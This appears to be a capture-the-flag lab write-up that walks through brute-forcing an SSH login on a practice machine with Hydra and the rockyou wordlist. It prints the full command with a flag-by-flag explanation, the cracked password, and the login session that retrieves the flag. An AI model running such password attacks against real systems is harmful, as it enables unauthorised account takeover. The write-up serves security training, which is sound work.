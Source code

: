 ### Details from the Enumeration stage

user = administrator
OS  = Ubuntu
SMTP = Postfix
IP = 10.10.225.121

**Hydra**

There is a wide array of customisability when it comes to using Hydra, and it allows for adaptive password attacks against of many different services, including SSH. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub [here](https://github.com/vanhauser-thc/thc-hydra).

Hydra uses dictionary attacks primarily, both Kali Linux and Parrot OS have many different wordlists in the "_/usr/share/wordlists_" directory- if you'd like to browse and find a different wordlists to the widely used "rockyou.txt". Likewise I recommend checking out SecLists for a wider array of other wordlists that are extremely useful for all sorts of purposes, other than just password cracking. E.g. subdomain enumeration  

The syntax for the command we're going to use to find the passwords is this:

```shell
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.225.121 ssh
```

Let's break it down:

  

**SECTION**

**FUNCTION**

hydra

Runs the hydra tool  

-t 16  

Number of parallel connections per target  

-l [user]

Points to the user who's account you're trying to compromise  

-P [path to dictionary]

Points to the file containing the list of possible passwords  

-vV  

Sets verbose mode to very verbose, shows the login+pass combination for each attempt

[machine IP]

The IP address of the target machine

ssh / protocol

Sets the protocol

------
1. Found that the password list was not uncompressed so I uncompressed the rockyou.txt file
```shell
ls /usr/share/wordlists            
amass  dirbuster      fern-wifi  legion      nmap.lst        sqlmap.txt  wifite.txt
dirb   fasttrack.txt  john.lst   metasploit  rockyou.txt.gz  wfuzz
                                                                                                                    
┌──(root㉿kali)-[/home/kali/Documents/network_services2]
└─# gzip -dv  /usr/share/wordlists/rockyou.txt.gz 
/usr/share/wordlists/rockyou.txt.gz:     61.9% -- replaced with /usr/share/wordlists/rockyou.txt

```

2. Ran the hydra script, and got the password
```shell
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.225.121 ssh

[22][ssh] host: 10.10.225.121   login: administrator   password: alejandro

```
3. SSHed into the machine using the credentials and got the flag in the smtp.txt
```shell 

ssh administrator@10.10.225.121     

The authenticity of host '10.10.225.121 (10.10.225.121)' can't be established.
ED25519 key fingerprint is SHA256:6VV0TI4MQmKeRImOTQ8lj3uk863uVqWS+zh2fF2LLF8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.225.121' (ED25519) to the list of known hosts.
administrator@10.10.225.121's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)


Last login: Wed Apr 22 22:21:42 2020 from 192.168.1.110
 ls
 
dead.letter  Maildir  smtp.txt

cat smtp.txt 
THM{who_knew_email_servers_were_c00l?}

```
